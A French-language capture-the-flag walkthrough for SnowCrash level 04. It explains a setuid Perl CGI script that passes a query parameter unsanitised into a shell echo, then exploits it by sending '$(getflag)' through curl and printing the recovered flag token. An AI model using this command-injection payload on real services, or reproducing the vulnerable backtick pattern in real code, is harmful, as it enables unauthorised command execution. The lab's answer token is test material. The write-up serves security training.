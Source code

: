 
# **Level 04**

Pour ce level04, nous avons un executable `perl` dans le dossier courant appartenant a flag04 et que l'on peux executer avec les droits de flag04 -rw`s`r-`s`-r-x 

>(le `s` signifiant de l'executer avec les droits du owner du fichier)

```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Lorsque l'on affiche le fichier on a cette output:

```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```

On comprend qu'il y a un server qui tourne sur `localhost:4747` et qui prend un query parameter `x` en entree et l'affiche.

```
level04@SnowCrash:~$ curl localhost:4747?x=salut
salut
```
comme la commande echo est lance, elle peux prendre en parametre la sorti d'un `subshell` dans lequel on executerai `getflag`

```
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

> ### NEXT : [Level 05](/level05/resources/README.md)

